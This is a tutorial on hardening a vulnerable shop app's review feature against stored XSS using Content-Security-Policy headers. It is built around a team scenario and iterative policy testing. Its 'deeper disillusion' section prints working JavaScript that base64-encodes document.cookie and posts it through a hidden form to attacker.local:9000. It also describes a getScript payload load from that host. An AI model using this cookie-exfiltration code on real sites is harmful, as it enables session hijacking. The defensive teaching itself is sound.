


# Scratchpad

> [!IMPORTANT]
> My work keeps as track that the objective was to provide a *getting started* view to people regarding the definition of a CSP in existing app. Therefore, advanced concepts or directives were explicitly not mentioned. However, several resources were provided to allow to deep dive the CSP possibilities.

> [!WARNING]
> Deprecated directives were not mentioned.

## Glossary

💬 In this document:

* [Content-Secuity-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) is called **CSP**.
* [Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) is called **XSS**.
* [Chief Information Security Officer](https://en.wikipedia.org/wiki/Chief_information_security_officer) is called **CISO**.

## References used

📚 CSP Policy:

* [General documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
* [Validation](https://csp-evaluator.withgoogle.com/)
* [Generation](https://report-uri.com/home/generate)
* [Directives](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy#directives)
* [Browser compatibility for directives](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy#browser_compatibility)
* [Deprecated directives](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy#deprecated_directives)

## Goal

🎯 The objective of this work was to show how the CSP can be leveraged to make an XSS vulnerability really hard to exploit.

## Our evil fairytale context

🤝 As described in [this file](pitch.docx) (in French), our *evil fairytale* begins a Friday afternoon when our project manager asks to meet the team.

💬 Excerpt from the discussion:

* **PM:** "Guys, the CISO ask to meet me because we received the report of the security assessment of the application used by our client to order our products."
* **US:** "OK and what the matter?"
* **PM:** "A vulnerability was identified allowing to inject JavaScript to hijack the session of the user, the CISO mention a term XSS but I don't know what is it."
* **US:** "Neither we do. Production released in planned next Tuesday around 06:00 A.M. and we have finished to test all features expected to be deployed, so, it is risky to change the code now..."
* **PM:** "I totally agree guys, what can we do to continue the release as expected and give us time to take a look at the vulnerability in good condition without allowing anyone to leverage the vulnerability against our customers?"
* **US:** "We saw some references to a security header named Content-Security-Policy in podcasts, perhaps it can help us?"
* **PM:** "Guys you have a deal! Take a look at it and give me a feedback about possible options as soon as you can. This will relax the CISO."

## Vulnerability details from the security assessment report

🐜 The **review features** is prone to a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored), via for example, the following payloads in the review body:

```html
<!-- Execute inline JS code -->

<!-- Execute a remotely loaded JS code leveraging a feature of JQuery -->

```

## Insights about CSP based on our learning

### General

> [!NOTE]
> 📚 [Source](https://report-uri.com/home/generate) used.

🔒 The CSP is a *HTTP response header* allowing to instruct the browser (user agent) on how to handle the resources (scripts, styles, fonts, etc.).

📑 Using a CSP **policy**, it is possible to act on the following aspect:

* Allowed sources for JavaScript scripts.
* Allowed sources for stylesheets.
* Allowed sources for images and favicons.
* Allowed sources for fonts loaded using `@font-face`.
* Allowed sources for fetch, `XMLHttpRequest`, `WebSocket` and `EventSource` connections.
* Allowed Source for `<audio>` and `<videos>` elements.
* Allowed sources for `<object>`, `<embed>` and `<applet>` elements.
* Allowed URLs from which resources may be prefetched or prerendered.
* Allowed sources for elements such as `<frame>` and `<iframe>`.
* Allowed sources for `Worker`, `SharedWorker` or `ServiceWorker`.
* Allowed parents that may embed a page using elements such as `<frame>` and `<iframe>`.
* Allowed  locations that can be used for `<form>` submissions.
* Forces a user agent to load all assets over HTTPS.
* Ensures that a resource disowns its opener when navigated to.
* Specifies which manifest can be applied to the resource.
* Specifies URIs that a user agent may use as the documents base URL for relative URIs.

😰 As such, it is a powerful security feature, however, it is tricky to correctly setup and as it is easy to break an application with CSP **policy**.

### Format

> [!NOTE]
> 📚 [Source](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) used.

📖 A CSP policy uses the following format:

```text
Content-Security-Policy: policy
```

📖 Where **policy** use the following format:

```text
[DIRECTIVE 1] [ALLOWED SOURCES OR INSTRUCTIONS] ; [DIRECTIVE 2] [ALLOWED SOURCES OR INSTRUCTIONS] ; [DIRECTIVE N] [ALLOWED SOURCES OR INSTRUCTIONS]
```

📋 The list of **all supported directives** is available [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy#directives) (Mozilla MDN).

👓 Example of directives to only allow JavaScript script loading from the Google CDN:

```text
script-src https://ajax.googleapis.com
```

### Concept of fallback

> [!NOTE]
> 📚 [Source](https://report-uri.com/home/generate) used.

💡 CSP offer the possibility to define, a default directive, that the browser used to identify allowed sources if certain directives are not defined in the policy. This directive is named `default-src`.

🤝 The browser uses the `default-src` directives if one of the following directives is not defined: `connect-src`, `font-src`, `frame-src`, `img-src`, `manifest-src`, `media-src`, `prefetch-src`, `object-src`, `script-src-elem`, `script-src-attr`, `style-src-elem`, `style-src-attr`, `worker-src`.

😀 This behavior is very helpful if the app used resources centralized in few external locations.

### Concept of special instructions

> [!NOTE]
> 📚 [Source](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy#keyword_values) used.

💡 CSP offer the possibility to use special instructions to reference locations:

* `none`: Blocks the use of this resource type.
* `self`: Matches the current origin but not subdomains.

💡 Same about protocols:

* `http:`: Allow loading from insecure HTTP for the specified locations and not HTTPS.
* `https:`: Allow loading from secured HTTP for the specified locations and not HTTP.
* `data:`: Allow loading from data URI locations.

👓 Examples of indication:

```text
Content-Security-Policy: default-src 'none'
Content-Security-Policy: default-src 'self'
Content-Security-Policy: default-src http://mycdn.com
Content-Security-Policy: default-src https://mycdn.com
Content-Security-Policy: default-src https://*.mycdn.com
Content-Security-Policy: default-src https://mycdn.com; img-src data:
```

### Concept of report only behavior

> [!NOTE]
> 📚 [Source](https://report-uri.com/home/generate) used.

💡 CSP offer the possibility to not block the loading of a resource if a directive relate to such resources is not respected and, then, send a violation notification to a web endpoint.

📍 It is achieved using the header named `Content-Security-Policy-Report-Only` instead of one named `Content-Security-Policy`.

👓 Example of indication, of a policy acting as not blocking and sending a notification to an endpoint:

```text
Content-Security-Policy-Report-Only: default-src 'self'; report-uri https://app.com/csp_notification_listener
```

😀 This behavior is very helpful to test a policy, against real usage context to tune it, prior to move to a blocking behavior.

## Back to our evil fairytale: Which options we have?

👨‍🎓 Once we (as dev team) know a little more about CSP and policies , there are different options **from less to more risky** one in terms of risk of breaking the application as well as effectiveness regarding making harder exploitation of the vulnerability.

🤔 Options:

* **A:** Use a CSP policy *in report-only mode (non-blocking)* to detect exploitation of the vulnerability and then apply manual actions.
* **B:** Use a CSP policy *in blocking mode* to prevent exploitation of the vulnerability.

🚨 Constraint of the application to keep in mind and **that cannot be changed**:

* Fonts and styles are loaded from `https://fonts.googleapis.com` and `https://fonts.gstatic.com`.
* Inline styles using the `<style>` tag is used.
* JavaScript processing is dynamically added to event handlers on some UI components.
* Images using the protocol `data:` and `blob:` are used.

## Study of the different options

> [!TIP]
> This [online tool](https://report-uri.com/home/generate) was used to create the CSP proposal.

> [!IMPORTANT]
> A CSP proposed was split on several lines to made reading easier but it is on a single line when it is defined as an HTTP header CSP's value.

> [!NOTE]
> All CSP policies were developed and tested against the version `123.0.6293.0` of [Chromium](https://chromium.woolyss.com/download/en/).

### Option A

#### CSP goal

📋 The CSP will:

1. Define a policy defining the following constraints:
    * Allow sources from the current domain.
    * Allow sources for the constraints in the app defined explained above.
2. Report any violation to an endpoint exposed by the app.
3. Not blocking in case of violation of the policy.

#### CSP proposal

📑 Policy:

```text
Content-Security-Policy-Report-Only: default-src 'self'; script-src 'self' 'unsafe-inline'; 
style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://fonts.gstatic.com; 
img-src 'self' data: blob:; font-src 'self' https://fonts.googleapis.com https://fonts.gstatic.com; 
report-uri /csp-notification-listener.php
```

👨‍🎓 Explanation of the policy:

* `Content-Security-Policy-Report-Only`: The CSP policy behave in report mode without blocking in case of violation.
* `default-src 'self'`: By default, only the current domain is allowed as a source.
* `script-src 'self' 'unsafe-inline'`: For JavaScript scripts, only the current domain is allowed as a source and inline scripting is allowed.
* `style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://fonts.gstatic.com`: For styles, the loading of styles from the Google domains specified using HTTPS is allowed in addition to the current domain. Inline styles definition is allowed.
* `img-src 'self' data: blob:`: For images, only the current domain is allowed as a source in addition to one using the `data:` or `blob:` protocols.
* `font-src 'self' https://fonts.googleapis.com https://fonts.gstatic.com`: For fonts, the loading of fonts from the Google domains specified using HTTPS is allowed in addition to the current domain.
* `report-uri /csp-notification-listener.php`: Any violation of the policy is reported to the specified endpoint by the browser.

💻 Execution:


#### Remarks

🤔 Even if we received directly the notification of the exploitation of the XSS, the information received was hard to leverage. Indeed, the attacker injected the following code in the comment part of a review:

```html

```

😈 The code says instruct the browser to load an image on the relative url "x" and if it failed (it will be the case) then execute the code specified into the `onerror` handler. This one leverage the function `getScript` ([documentation](https://api.jquery.com/jQuery.getScript/)) to load and execute the script located on the location specified.

The notification received was the following ([documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP#enabling_reporting)):

```json
{
    "csp-report": {
        "document-uri": "http://righettod.local:8000/shop-detail.php",
        "referrer": "http://righettod.local:8000/",
        "violated-directive": "script-src-elem",
        "effective-directive": "script-src-elem",
        "original-policy": "default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://fonts.gstatic.com; img-src 'self' data: blob:; font-src 'self' https://fonts.googleapis.com https://fonts.gstatic.com; report-uri /csp-notification-listener.php",
        "disposition": "report",
        "blocked-uri": "http://attacker.local:9000/payload.js?_=1707557354256",
        "line-number": 2,
        "column-number": 83755,
        "source-file": "http://righettod.local:8000/js/jquery.min.js",
        "status-code": 200,
        "script-sample": ""
    }
}
```

🤨 Based on this content and our knowledge of the CSP concepts, we understood the following elements:

1. The violation occurred on page **shop-detail.php**.
2. The violation was caused by a non-respect of the instruction defined by the directive **script-src-elem**:
    * We did not specify this directive into our CSP policy!
    * Such directive is in advanced features of CSP allowing to define policies at a more precise level that the **script-src** base directive in general.
3. The violation occurred precisely in file **js/jquery.min.js**:
    * It is not our code, it is the JQuery core library!
    * Even if it is the real location of the violation from a technical perspective. For us from an analysis perspective of the attack, it is the `` tag into the comment of the review where the attack is located.
    * This attribute is not documented into the [Mozilla MDN documentation about CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP#violation_report_syntax) (at least on mid February 2024).
    * The current version of the [CSP specification](https://www.w3.org/TR/CSP3) say this thing about the **source-file** attribute: `Each violation has a source file, which is either null or a URL.` ([source](https://www.w3.org/TR/CSP3/#violation-source-file))

👓 So, even if the notification contains a lot of very useful information regarding the attack and the payload used, it will quickly become hard to effective analyze the attack. Indeed, as indicated in the [Mozilla MDN documentation about CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP#violation_report_syntax), some information can depend on the browser in which CSP was executed.:

```text
effective-directive:
The directive whose enforcement caused the violation. Some browsers may provide different values, 
such as Chrome providing style-src-elem/style-src-attr, even when the actually enforced 
directive was style-src.

violated-directive:
The directive whose enforcement caused the violation. The violated-directive is a historic name 
for the effective-directive field and contains the same value.
```

💬 Test on `Firefox 122.0.1` and `Edge 121.0.2277.112` provided the same violation report content that the one provided on Chromium (one above).

⚠ In addition, the endpoint exposed to receive the notification of violation can be prone to vulnerability like:

* Injection like SQL, etc.
* XSS targeting the app consuming the notification.
* DOS via flooding of the endpoint or sending huge JSON to break the parser.
* Flooding of the endpoint and the storage of the data of the violation.
* Etc.

🤔 So, let's study the possibilities offered by the next option.

### Option B

#### CSP goal

😀 As the policy defined in the option A seem to detect the attack so let's pass to CSP in blocking mode.

#### CSP proposal

📑 Policy for which we made this change:

1. Replace the header name `Content-Security-Policy-Report-Only` by `Content-Security-Policy`.
2. Remove the directive `report-uri`.

```text
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; 
style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://fonts.gstatic.com; 
img-src 'self' data: blob:; font-src 'self' https://fonts.googleapis.com https://fonts.gstatic.com; 
```

💻 Execution:




🤗 **Job done:** The malicious code was executed but the loading of the script was correctly blocked by the CSP policy! Yeah! We patched the XSS in one round !!!!

#### The disillusion

😰 Suddenly, a member of the team said: *We blocked the loading of a remote script but what about an attack fully embedded in the `onerror` event handlers?*

😈 Let's try with such malicious comment for a new review:

```html

```

💻 Execution without changing the CSP policy:


😱 Damn, the XSS is still present, our CSP only block loading remote script and sending data other domains...

🙂 OK, the attacker can execute action on behalf of the current user but, at least, **it cannot send data to a domain under its control!**

#### The deeper disillusion

😰 Suddenly, a member of the team said: *Are we sure about such statement?*

😈 Let's try with such malicious comment for a new review:

```html

```

👀 JavaScript code injected:

```javascript
//CKE => Cookie
//BDY = Body
//FRM => Form
//PRM => Form parameter
let cke = btoa(document.cookie);
let bdy = document.getElementsByTagName("body")[0];
let frm = document.createElement("form");
frm.setAttribute("method", "post");
frm.setAttribute("action", "//attacker.local:9000/listener.php");
let prm = document.createElement("input");
prm.setAttribute("type", "hidden");
prm.setAttribute("name", "data");
prm.setAttribute("value", cke);
frm.appendChild(prm);
bdy.appendChild(frm);
frm.submit();
```

💻 Execution without changing the CSP policy:




```bash
$ echo UEhQU0VTU0lEPWJncDFrdjNoMTMyNWo5NmFxamZlMjEza2dr | base64 -d
PHPSESSID=bgp1kv3h1325j96aqjfe213kgk
```


😱 Damn, the XSS is still present, our CSP only block loading remote script **BUT NOT** sending data to other domains !

👨‍🎓 Time has come for us to learn another point about the different directives of a CSP: **Not all directives fallback to the `default-src` directive!**

📍 Indeed the `form-action` directive, that specifies locations that can be used for `<form>` submissions, does not fallback to the `default-src` directive when it is not defined in a policy!

👨‍🎓 Time has come for us, once again, to learn a core thing about building a CSP policy: **It is an iterative approach!**

#### Move forward step by step

📖 Let's recap what we achieved with the current policy according to the XSS vulnerability:

1. The app is functional with the policy: It is so easy to break an app with a CSP policy that, YES, it is an achievement, we can be proud of ourselves!
2. Loading a JavaScript script from a source, other than the current domain, is blocked.
3. Send data to a remote domain, other than the current domain **via JavaScript**, is blocked.

🎯 Now, let's recap what is missing in our policy to achieve the final objective:

1. Block sending data to a remote domain, other than the current domain, using other way than JavaScript.
2. Block execution of any JavaScript code present into the comment part of a review.

📐 It is time, now, to enter into a next iteration of our policy.

##### Fix missing point 1

📑 Let's block the possibility of sending data to a remote domain. To achieve this, the `form-action` directive will be leveraged.

👓 By adding `form-action 'self'` then, it is normally, not possible to submit a form to a domain (source) other than the current domain.

```text
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; 
style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://fonts.gstatic.com; 
img-src 'self' data: blob:; font-src 'self' https://fonts.googleapis.com https://fonts.gstatic.com; 
form-action 'self'
```

💻 Execution with the updated CSP policy:


🤗 Now the sending of data to a domain (source) other than the current domain, via the HTML form generated by the XSS, is correctly blocked.

##### Fix missing point 2

📑 Let's block the execution of any injected JavaScript code.

🤔 The first idea was to remove the `unsafe-inline` instruction from the `script-src` directive:

```text
Content-Security-Policy: default-src 'self'; script-src 'self'; 
style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://fonts.gstatic.com;
img-src 'self' data: blob:; font-src 'self' https://fonts.googleapis.com https://fonts.gstatic.com; 
form-action 'self'
```

💻 Execution with the updated CSP policy:


😱 Damn, this new policy was breaking the execution on the processing on the button to submit a review.

🔬 As we were not allowed to modify the code of the app, a deep dive into CSP capabilities was performed...

👀 As first reminder, the attacker was using such payload format, in which, the `onerror` ([documentation](https://developer.mozilla.org/en-US/docs/Web/API/Window/error_event)) event handler was leveraged:

```html

```

👀 As second reminder, the app was using this code to assign the event handler on the button to submit a review ([affected code](app/js/vulnerable.js#L49)):

```javascript
window.onload = function () {
    /* ... */
    document.getElementById("userPostReview").setAttribute("onclick", "sendUserReview()");
    /* ... */
}
```

💡 The CSP (version 3) provide the directive `script-src-attr` ([documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src-attr)):

```text
This directive only specifies valid sources for inline script event handlers like "onclick".
It does not apply to other JavaScript sources that can trigger script execution,
such as URLs loaded directly into <script> elements and XSLT stylesheets.

If this directive is absent, the user agent will look for the "script-src" directive,
and if both of them are absent, fallback to "default-src" directive.
```

🤔 Therefore, based on this new feature learned, the idea was to:

1. Remove the `unsafe-inline` instruction from the `script-src` "general" directive.
2. Add the  `unsafe-inline` instruction to the `script-src-attr` directive to allow the execution of the `onclick` event handler on the button to submit a review as well as narrowing the `unsafe-inline` instruction scope.

👓 The CSP policy became the following one:

```text
Content-Security-Policy: default-src 'self';
script-src 'self'; script-src-attr 'unsafe-inline';
style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://fonts.gstatic.com;
img-src 'self' data: blob:;
font-src 'self' https://fonts.googleapis.com https://fonts.gstatic.com;
form-action 'self'
```

💻 Execution with the updated CSP policy:


😱 Damn, this new policy was not blocking the execution of the attacker injection because it was using a payload that was similar to the code of the app that we must keep functional. Indeed, an event handler was used to execute the malicious code and not a direct `<script></script>` tag.

👓 So, we goes back to the CSP policy obtained, after fixing the missing point 1 (adding `form-action` directive):

```text
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; 
style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://fonts.gstatic.com; 
img-src 'self' data: blob:; font-src 'self' https://fonts.googleapis.com https://fonts.gstatic.com; 
form-action 'self'
```

😞 From a CSP perspective, we reached the maximum that we can perform with the constraints in place. We achieved to constraints the malicious payload to act inside the app without the capability (*at least an easy one*) to load external data or send data out to a domain (source) other than the current domain.

👨‍🎓 During our study of the directive `script-src-attr`, we discover this point ([documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src-attr#violation_case)) about the correct/recommended way to add an event handler in JavaScript:


👀 We noticed that the app was not using the recommended way:

```javascript
document.getElementById("userPostReview").setAttribute("onclick", "sendUserReview()");
```

🤔 We decided to break one constraint about the app: We made a test by *fixing* the way in which the app was assigning the event handler as well as combining it with an iteration of the CSP policy, in which, we removed the `unsafe-inline` instruction from the `script-src` directive:

```text
Content-Security-Policy: default-src 'self'; script-src 'self'; 
style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://fonts.gstatic.com;
img-src 'self' data: blob:; font-src 'self' https://fonts.googleapis.com https://fonts.gstatic.com; 
form-action 'self'
```

💻 Execution with the updated CSP policy and JS binding code:


🤗 We achieve to keep the application functional as well as preventing the execution of the different payloads of the attacker, including ones already present into the systems.

## Back to our evil fairytale: Feedback to our manager

💬 Based on our studies and tests, we can provide a CSP policy that needs a little "update" of the JS code of the app.

🛡 This one address the vulnerability in an effective way. In addition, we handle the case in which the storage contains already some reviews with malicious code.

✅ We do not modify to core feature of the app, so, we decrease the risk of introducing a bug.

## Conclusion

👓 As expected, The CSP feature is not a magic one that will move away a client side vulnerability and exempt an application from correctly processing received client data from a security perspective.

🔬 However, it provides an operable lever to act, in an effective way, on the *exploitation* aspect of a vulnerability from *none* to *little update* of the app code.

💡 Using a CSP policy, here, allows us to have time to look in detail at the vulnerability, in a good condition, in order to fix it in the next release of the app.
